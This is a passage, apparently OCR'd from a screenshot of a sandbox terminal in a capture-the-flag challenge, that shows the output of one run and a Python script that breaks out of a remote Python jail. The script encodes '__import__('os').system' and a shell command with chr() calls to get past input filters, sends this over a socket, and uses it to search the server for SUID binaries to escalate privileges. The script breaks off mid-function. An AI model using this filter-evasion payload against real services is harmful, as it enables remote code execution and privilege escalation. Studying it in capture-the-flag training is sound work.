 ```bash
ubuntu@sandbox:~ $ cd /home/ubuntu && python3 /home/ubuntu/exploit_user.py
[*] Connecting to exp.cybergame.sk:7002
[*] Connected.
[*] Sending payload...
[*] Payload sent.
[*] Receiving response...
[*] Response received:
>> ls: cannot open directory '/root': Permission denied
512
```

Searching for SUID binaries that could be used for privilege escalation.
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    command = "find / -type f -perm -4000 -ls 2>/dev/null" # Look for SUID binaries

    payload = build_payload(command)

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

            print("[*] Response received:")
            decoded_response = response.decode(errors='ignore')
            print(decoded_response)

    except socket.timeout:
```